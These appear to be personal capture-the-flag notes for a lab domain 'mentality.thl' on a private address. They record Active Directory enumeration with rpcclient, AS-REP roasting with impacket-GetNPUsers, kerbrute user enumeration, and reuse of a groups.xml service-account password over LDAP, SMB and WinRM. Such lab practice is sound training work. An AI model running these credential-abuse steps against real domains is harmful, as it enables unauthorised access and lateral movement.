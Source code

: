 
rpcclient -U 'ftpuser%SuperSecret123$'  192.168.56.107


rpcclient -U 'ftpuser%SuperSecret123$'  192.168.56.107
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ftpuser] rid:[0x3e8]
user:[svcapp1] rid:[0x44e]
rpcclient $> 



rpcclient -U 'ftpuser%SuperSecret123$'  192.168.56.107 >  uservalid.txt




cat uservalid.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge uservalid.txt

cat uservalid.txt | grep -oP '(?<=\[).*?(?=\])' | grep -v "0x" > usuarios_limpios.txt





impacket-GetNPUsers -usersfile uservalid.txt -no-pass mentality.thl/ 





----------------------------------------------------------------

file:///home/kali/Documents/mentality/ad_hc_mentality_htl.html



copy_backup 	groups.xml	svcapp1	Hola1234$	2025-07-17 15:35:58Z


nxc ldap 192.168.56.107 -u 'svcapp1' -p 'Hola1234$' 

netexec  smb 192.168.56.107 -u svcapp1 -p 'Hola1234$' 

netexec winrm -i 192.168.56.107 -u svcapp1 -p Hola1234$

---------------------------------------------------------------------

kerbrute userenum --dc mentality.thl -d mentality.thl User.txt 


└─$ kerbrute userenum --dc mentality.thl -d mentality.thl usuarios_limpios.txt   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/05/25 - Ronnie Flathers @ropnop

2025/09/05 00:55:36 >  Using KDC(s):
2025/09/05 00:55:36 >   mentality.thl:88
